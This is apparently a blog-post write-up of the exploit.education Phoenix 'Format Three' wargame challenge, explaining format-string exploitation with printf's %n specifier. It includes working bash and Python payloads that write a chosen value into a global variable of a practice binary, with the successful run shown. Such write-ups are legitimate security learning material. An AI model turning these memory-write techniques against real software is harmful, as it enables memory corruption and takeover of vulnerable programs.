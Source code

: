 ```yaml
---
layout: post
title: "exploit.education Phoenix - Format 0x3"
category: CTF 
tagline:
tags: [binary, exploitation, phoenix, wargame, ctf, learning]
---
```


Write-up for: [Format Three](https://exploit.education/phoenix/format-three/)

<!--more-->

This is the same bug as the previous challenge but now we want to write a specific value to the location of the global variable `changeme`.

The way to write data using the `printf` family of functions is using the format specifier `%n` as demonstrated in the previous challenge. Only this time, we want to write a specific value. For this we only need to change our payload like this (note that format-three takes input from stdin):

```bash
./format-three < <(python -c 'print "%10x\x08\x04\x98\x44"[::-1] + "%p %p %p %p %p %p %p %p %p %p %p %p" + "%" + str(int(0x64457845 - 0x59)) + "x"  +  "%n"')

```

Basically, we make sure to pop 12 values from the stack (as before) AND we make sure to print 0x64457845 characters before using the `%n` format specifier. We do this by using a prefix to the `%x` specifier, adding a padding to this value.

Running this exploit takes forever since we need to print 0x64457845 characters. Which is a lot. If this were a network-based exploit this would not be feasible at all. We need to find a better approach.

# Improving the exploit

This is not really efficient since we have to write a LOT of bytes. Alternatively, we could try to write 4 single bytes. For this we need to have 4 addresses on the stack that we can use together with the `%n` format specifier.

```python
buf = "\x08\x04\x98\x44"[::-1]  
buf += "AAAA" 
buf += "\x08\x04\x98\x45"[::-1]
buf += "AAAA"
buf += "\x08\x04\x98\x46"[::-1]
buf += "AAAA"
buf += "\x08\x04\x98\x47"[::-1] 
buf += "%c" + "%c"*10 + "%n" 
buf += "%c" + "%n" 
buf += "%c" + "%n" 
buf += "%c" + "%n" 
print buf
```

The idea was to write one byte at a time to reduce the number of characters necessary. While this is generally possible, it will fail here since every write is going to influence subsequent writes. I.e. if for the first byte we need to write `0x65` this means the next byte will be a minimum of `0x66`. Thus, this technique is not applicable here.

However, what we can try is writing 2 bytes at once. We have a similar problem than before because 0x6445 is smaller than 0x7845. However, we can overcome this due to the fact that we always write 4 bytes at once. So even though the second write will be larger than the first write, we can just increase the number so it overflows into the next byte.

                Offset
+5  +4  +3  +2  +1  +0
XX  XX  64  45  78  45

This means we want to write `0x00007845` to the lower two bytes and `0x00016456` to the higher two bytes. `0x16456` is clearly larger than `0x07845`, so we can keep increasing our character count until the second `%n`.

We now only need to figure out the correct offsets (i.e. number of characters to print before each `%n`). The first write is simple. It is `0x7845 - number of bytes in our buffer so far - 10`. The 10 is the number of arguments we provide before hitting the address stored at the beginning of our buffer.

And the second write (found with a little trial and error):
`0x16456 - 0x7845 - 17`

Let's see this in action:

```python
import struct

ADDR = 0x08049844

buf = struct.pack("I", ADDR)
buf += "AAAA" # Add padding between addresses since we can't access arguments directly. This ensures that between the first and second write we can add more padding to control the value we write
buf += struct.pack("I", ADDR + 2)
buf += "%" + str(0x7845 - len(buf) - 10) + "x" + "%c" * 10 + "%n" # Write to lower 2 bytes, address is at the 12th argument position. We don't have the '$' sematic on this machine so we need to provide explicit format specifiers until %n is the 12th one.
buf += "%" + str(0x16456 - 0x7845 - 17) +  "x" + "%n" # Write to upper 2 bytes

print buf
```

First, we put our both target addresses (found via objdump) on the stack. We separate the two addresses with `AAAA` to allow us to put one format specifier between the two `%n` write modifiers. This means, the first address will be the 12th "argument" to printf and the second address will be the 14th. The 13th can be used to alter the second write operation.

Next, we write to the lower 2 bytes (0x7845). This means we need to fill the buffer so that when we hit the `%n` there were exactly 0x7845 bytes written so far. Then we add 10 more 1-byte arguments before the `%n` so that the `%n` pops the correct value off the stack.

Lastly we write 0x(1)6456 to the upper bytes by again padding the print buffer with a single `%x` specifier. The last `%n` will pop the 14th value off the stack (the target address + 2) and write there.

Let's run this exploit:

```bash
user@phoenix-amd64:/opt/phoenix/i486$ ./format-three < <(python ~/format-three.py) | tail -n 1
Well done, the 'changeme' variable has been changed correctly!
```

Done! This is a lot better than our first attempt :)

# Afterword

Thinking back to the attempt writing one byte at a time: this would probably work as well using the overflow technique. I'll leave this as an exercise to the reader.

# Additional resources

Concept of two-byte write explained by LiveOverflow: [http://liveoverflow.com/binary_hacking/protostar/format4.html](http://liveoverflow.com/binary_hacking/protostar/format4.html)


